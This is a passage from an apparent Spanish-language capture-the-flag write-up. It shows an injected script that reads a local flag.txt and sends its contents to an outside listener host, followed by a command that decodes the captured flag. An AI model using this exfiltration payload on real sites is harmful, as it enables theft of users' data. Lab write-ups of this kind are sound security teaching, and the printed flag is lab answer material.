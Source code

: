 ```
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://10.21.76.251:8000/?data=' + encodeURIComponent(data))
  })
</script>
```
<p align="center">
    <img src="../img/Pasted_image_20250102200249.png" width="500">
</p>


Si le damos al botón `Submit` y vemos el servidor que no levantamos con python podemos ver que está haciendo la petición al servidor web leyendo el fichero `flag.txt` y guardando el contenido en el parámetro `data`.

<p align="center">
    <img src="../img/Pasted_image_20250102200303.png" width="500">
</p>


Vemos que es la `flag` pero codificada para navegadores, podemos decodificar la URL
```
echo "THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D" | sed 's/%7B/{/g; s/%7D/}/g'
```

<p align="center">
    <img src="../img/Pasted_image_20250102201252.png" width="500">
</p>

Y obtenemos la flag.

